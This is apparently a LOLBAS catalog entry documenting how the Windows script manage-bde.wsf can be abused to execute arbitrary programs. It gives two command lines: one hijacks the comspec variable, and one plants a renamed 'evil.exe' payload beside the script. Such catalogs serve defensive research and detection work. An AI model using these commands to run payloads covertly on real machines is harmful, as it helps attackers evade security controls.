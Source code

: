 ---
Name: Manage-bde.wsf
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: set comspec=c:\windows\system32\calc.exe & cscript c:\windows\system32\manage-bde.wsf
    Description: Set the comspec variable to another executable prior to calling manage-bde.wsf for execution.
  - Command: copy c:\users\person\evil.exe c:\users\public\manage-bde.exe & cd c:\users\public\ & cscript.exe c:\windows\system32\manage-bde.wsf
    Description: Run the manage-bde.wsf script with a payload named manage-bde.exe in the same directory to run the payload file.
Full Path:
  - C:\Windows\System32\manage-bde.wsf
Code Sample: []
Detection: []
Resources:
  - https://gist.github.com/bohops/735edb7494fe1bd1010d67823842b712
  - https://twitter.com/bohops/status/980659399495741441
Notes: Thanks to Jimmy - @bophops (Comspec), Daniel Bohannon - @danielhbohannon (Path Hijack)
